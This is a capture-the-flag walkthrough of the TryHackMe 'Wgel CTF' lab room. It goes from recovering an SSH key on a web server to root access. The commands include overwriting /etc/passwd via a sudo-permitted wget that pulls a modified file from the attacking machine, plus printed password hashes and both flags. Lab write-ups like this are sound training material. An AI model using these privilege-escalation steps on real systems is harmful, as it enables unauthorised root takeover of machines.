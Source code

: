 # TRYHACKME - Wgel CTF

I am going to make this fast cuz it's a easy room!

**nmap**: port 22, 80

## 80 apache: 

Comment from `/` directory --> *credential found*: `jessie`

*Brute-forcing* --> `/sitemap/id_rsa` --> get that sh*

## 22 SSH:
```bash
chmod 700 id_rsa
scp -i id_rsa /opt/linpeas.sh jessie@$IP:/tmp # transfer file via ssh
ssh -i id_rsa jessie@$IP
# .......
```
**From /home/jessie/user.txt**:

**user flag**: `057c67131c3d5e42dd5cd3075b198ff6`

## Privilege Escalation
Run `linpeas` --> `(root) NOPASSWD: /usr/bin/wget`

Ok, we can using `wget` with root permission to overwrite linux credential file like `/etc/passwd` with *option* `-O` for output document file

**passwd file format**: *reference* -> `https://www.cyberciti.biz/faq/understanding-etcpasswd-file-format/`
![passwd file format](passwd-file-format.png)

**1. Username**: It is used when user logs in. It should be between 1 and 32 characters in length.
**2. Password**: An `x character indicates that encrypted password is stored in /etc/shadow file`. Please note that you need to use the passwd command to computes the hash of a password typed at the CLI or to store/update the hash of the password in /etc/shadow file.
**3. User ID (UID)**: Each user must be assigned a user ID (UID). UID 0 (zero) is reserved for root and UIDs 1-99 are reserved for other predefined accounts. Further UID 100-999 are reserved by system for administrative and system accounts/groups.
**4. Group ID (GID)**: The primary group ID (stored in /etc/group file)
**5. User ID Info (GECOS)**: The comment field. It allow you to add extra information about the users such as user’s full name, phone number etc. This field use by finger command.
**6. Home directory**: The absolute path to the directory the user will be in when they log in. If this directory does not exists then users directory becomes /
**7. Command/shell**: The absolute path of a command or shell (/bin/bash). Typically, this is a shell. Please note that it does not have to be a shell. For example, sysadmin can use the nologin shell, which acts as a replacement shell for the user accounts. If shell set to /sbin/nologin and the user tries to log in to the Linux system directly, the /sbin/nologin shell closes the connection.

Yes, that `x` is where we gonna modify root password, stop stammering and just do that!!

**From remote machine**:
```bash
cp /etc/passwd /tmp # copy for safety
cd /etc; python3 -m http.server 8989
```

**From attacking machine**:
```bash
wget http://$IP:8989/passwd -O passwd
# we got: root:x:0:0:root:/root:/bin/bash

# encrypt the replacing password first!, we using python for that
```
```python
import encrypt
encrypt.encrypt('admin')
# return: $6$rM9TXpSZoOnQgVfQ$tkz5ER7TUE3u8KkRdoiKYFcxNOieTH3dEEe1E3fU/zzfzAbwl.ixt5y0lnLEGIyyJHq3497yavXu6olwIIH.F/
```

**Modify passwd file**: 
```
root:x:0:0:root:/root:/bin/bash
# to
root:$6$rM9TXpSZoOnQgVfQ$tkz5ER7TUE3u8KkRdoiKYFcxNOieTH3dEEe1E3fU/zzfzAbwl.ixt5y0lnLEGIyyJHq3497yavXu6olwIIH.F/:0:0:root:/root:/bin/bash
# save that!
```

**Host it**:
```bash
python3 -m http.server 80
```

**Back to remote machine**:
```bash
sudo wget http://$TUN-IP/passwd -O /etc/passwd
# done!!

su root
# Password: admin
whoami # root
```

**From /root/root.txt**:

**root flag**: `b1b968b37519ad1daa6408188649263d`